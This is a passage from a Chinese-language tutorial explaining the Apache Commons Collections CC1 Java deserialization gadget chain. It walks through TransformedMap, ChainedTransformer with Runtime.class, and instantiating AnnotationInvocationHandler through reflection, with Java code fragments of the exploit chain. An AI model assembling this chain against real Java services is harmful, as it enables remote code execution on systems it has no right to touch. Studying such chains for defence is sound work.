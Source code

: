 >2. **检查是否有下一个元素**：增强型 `for` 循环隐式调用 `Iterator` 对象的 `hasNext()` 方法。
>3. **获取下一个元素**：如果 `hasNext()` 返回 `true`，增强型 `for` 循环隐式调用 `Iterator` 对象的 `next()` 方法。
>4. **执行循环体**：将 `next()` 方法返回的元素赋值给 `entry` 变量，然后执行循环体中的 `entry.setValue(Runtime.class)`。
>
>在 `TransformedMap` 的实现中，这个过程会涉及到以下类和方法：
>
>- 其父类的`EntrySet` 类的 `iterator()` 方法返回一个 `EntrySetIterator` 对象。
>- `EntrySetIterator` 类的 `next()` 方法返回一个 `MapEntry` 对象。
>- `MapEntry` 类的 `setValue()` 方法调用 `TransformedMap` 的 `checkSetValue()` 方法来检查或转换值，然后调用原始 `Map.Entry` 的 `setValue()` 方法。
>
>所以`for(Map.Entry entry:transformedMap.entrySet()){entry.setValue(Runtime.class);}`换成经典的迭代器你就会很容易理解了
>
>```java
>//代码4
>HashMap<Object,Object> map = new HashMap<>();
>map.put("key",null);
>Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
>Iterator it = transformedMap.entrySet().iterator();
>while(it.hasNext()){
>  Map.Entry entry = (Map.Entry<Object,Object>) it.next();
>  entry.setValue(Runtime.class);
>}
>```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709162016938.png)



### 寻找readObject

牢记，最后是readObject触发反序列化。刚好在AnnotationInvocationHandler的readObject里找到了调用setValue的部分，虽然其参数不可控。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709170205275.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709170357665.png)

进入到setValue中，需要把memberValues设置为transformedMap，该属性在其私有构造函数中进行赋值

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709171213495.png)

私有构造函数使用反射获取，修改访问权限即可。该构造函数第一个参数要求继承了Annotation接口，实际上就是要求传入注解类型，比如常用的注解Override，Target

> 可以继承接口或者实现接口。
>
> * 继承接口extends指的是接口之间的关系，其中一个接口扩展另一个接口，从而获得其方法和常量。
> * 实现接口implements指的是类与接口之间的关系，其中类提供了接口中定义的所有抽象方法的具体实现。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709171748034.png)

```java
        Constructor AnnotationInvocationHandlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandlerConstructor.setAccessible(true);
        AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
```
